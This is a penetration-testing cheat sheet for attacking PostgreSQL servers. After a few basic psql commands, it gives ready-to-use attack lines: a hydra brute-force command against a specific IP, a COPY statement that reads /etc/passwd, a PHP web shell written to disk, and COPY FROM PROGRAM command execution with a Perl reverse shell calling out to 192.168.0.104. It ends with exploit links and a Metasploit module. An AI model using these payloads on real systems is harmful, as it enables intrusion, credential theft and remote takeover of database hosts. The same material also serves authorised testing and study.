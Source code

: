 # 5432, 5435 - PostgreSQL

## General

{% code overflow="wrap" %}
```sql
https://www.postgresql.org/docs/9.2/functions-info.html

$ psql -h $IP -p $PORT -U $USER                                                                                                                         
# Some basic commands:
\? # help
\c dbname username # to change database on a specified user
\c $DATABASE # change database
\l # list all databases in the current PostgreSQL database server
\dt # list all tables in the current database
\d table_name — describe a table such as a column, type, modifiers of columns, etc.
\dn # list all schemas of the currently connected database
\du # list all users and their assign roles
SELECT version(); # the current version of PostgreSQL server
\g # you want to save time typing the previous command again (but last
#command should be SELECT statement)
\q # exit

# POSTGRESQL VERSION
select version();

# BRUTE FORCE POSTGRESQL
hydra -L /usr/share/metasploit-framework/data/wordlists/postgres_default_user.txt -P /usr/share/metasploit-framework/data/wordlists/postgres_default_pass.txt 172.16.242.134 postgres

# READ FILES
create temp table hack(file TEXT);
COPY hack FROM '/etc/passwd';
select * from hack;

# PUTTING A FILE ON THE TARGET
create temp table hack(put TEXT);
INSERT INTO hack(put) VALUES('<?php @system("$_GET[cmd]");?>');
COPY hack(put) TO '/tmp/temp.php';
```
{% endcode %}

## PostgreSQLi

[https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection](https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection)

## RCE

<mark style="color:blue;">**From version 9.3**</mark>&#x20;

Since then, new functionality was implemented. This allows the database superuser, and any user in the **pg\_execute\_server\_program** group to run arbitrary operating system commands.

{% code overflow="wrap" %}
```sql
# PoC
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;

# Reverse shell (run first two commands above and then this one)
# Notice that in order to scape a single quote you need to put 2 single quotes
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.0.104:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```
{% endcode %}

## References

| Exploit, injection and UDF                                                                                                                                             |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| [https://www.exploit-db.com/exploits/50847](https://www.exploit-db.com/exploits/50847)                                                                                 |
| [https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection#rce](https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection#rce) |
| [https://afinepl.medium.com/postgresql-code-execution-udf-revisited-3b08412f47c1](https://afinepl.medium.com/postgresql-code-execution-udf-revisited-3b08412f47c1)     |

## Metasploit

`multi/postgres/postgres_copy_from_program_cmd_exec`
